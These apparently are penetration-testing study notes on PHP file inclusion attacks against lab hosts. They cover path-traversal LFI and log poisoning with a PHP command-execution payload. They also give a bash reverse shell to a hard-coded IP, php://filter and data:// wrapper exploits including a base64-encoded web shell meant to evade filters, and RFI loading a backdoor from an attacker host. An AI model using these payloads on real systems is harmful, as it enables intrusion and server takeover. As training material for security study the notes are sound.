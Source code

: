 # File Inclusion

Execute local or remote files (while directory traversal only allows us to read the contents of a file).







## Local File Inclusion (LFI)
occurs when an attacker is able to get a website to include a file that was not intended to be an option for this application. A common example is when an application uses the path to a file as input. If the application treats this input as trusted, and the required sanitary checks are not performed on this input, then the attacker can exploit it by using the ../ string in the inputted file name and eventually view sensitive files in the local file system. In some limited cases, an LFI can lead to code execution as well.

Example LFI: `http://unika.htb/index.php?page=../../../../../../../../windows/system32/drivers/etc/hosts`











### Log Poisoning

- Linux: /var/log/apache2/access.log
- Windows: C:\xampp\apache\logs\access.log

Payload to write in the log: `<?php echo system($_GET['cmd']); ?>`:
```
User-Agent: Mozilla/5.0 <?php echo system($_GET['cmd']); ?>
```

Then execute:
```
GET /meteor/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=ps
```


Once we have achieved command execution on the target system and can leverage this to get a reverse shell:
```
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"


bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22
```


or add our SSH key to the authorized_keys file for a user.
















### PHP Wrappers

This is a handy technique that may help us bypass basic filters. However, we need to be aware that the `data://` wrapper will not work in a default PHP installation. To exploit it, the `allow_url_include` setting needs to be enabled.





`php://filter` wrapper can be used to include the contents of a file.
`convert.base64-encode` converts the specified resource to a base64 string.

Example:
```
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64- 
encode/resource=admin.php
```
Then use `base64 -d` to decode the encoded data.






`data://` wrapper to achieve code execution.
This wrapper is used to EMBED DATA ELEMENTS AS PLAINTEXT OR BASE64-ENCODED DATA IN THE RUNNING WEB APPLICATION’S CODE. This offers an alternative method when we cannot poison a local file with PHP code.

Example:
```
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20sy stem('ls');?>"
```

When web application firewalls or other security mechanisms are in place, they may filter strings like "system" or other PHP code elements. In such a scenario, we can try to use the `data://` wrapper with `base64-encoded` data. We'll first encode the PHP snippet into `base64`, then use curl to embed and execute it via the `data://` wrapper.

```
echo -n '<?php echo system($_GET["cmd"]);?>' | base64
# Output: PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==

curl 
"http://mountaindesserts.com/meteor/index.php?page=data://text/plain;base64,PD9waHAgZW
 NobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls"
```

















## Remote File Inclusion (RFI)
Is similar to LFI but in this case it is possible for an attacker to load a remote file on the host using protocols like HTTP, FTP etc

Example RFI: `http://unika.htb/index.php?page=//10.10.14.6/somefile`





RFI vulnerabilities are less common than LFI since the target system must be configured in a specific way. In PHP web applications, for example, the `allow_url_include` option needs to be enabled to leverage RFI (just as with the data:// wrapper case)

Common scenarios where we'll find this option enabled is when the web application
loads files or contents from remote systems e.g. libraries or application data.



Kali Linux includes several PHP webshells in the `/usr/share/webshells/php/` directory that can be used for RFI.

A webshell is a small script that provides a web-based command line interface, making it easier and more convenient to execute commands. 

To leverage an RFI vulnerability, we need to make the remote file accessible by the target system.
- `python3 -m http.server 80`
- use a publicly-accessible file, such as one from Github



```
curl "http://mountaindesserts.com/meteor/index.php?page=http://[ATTACKER IP]/simple-
backdoor.php&cmd=ls"
```








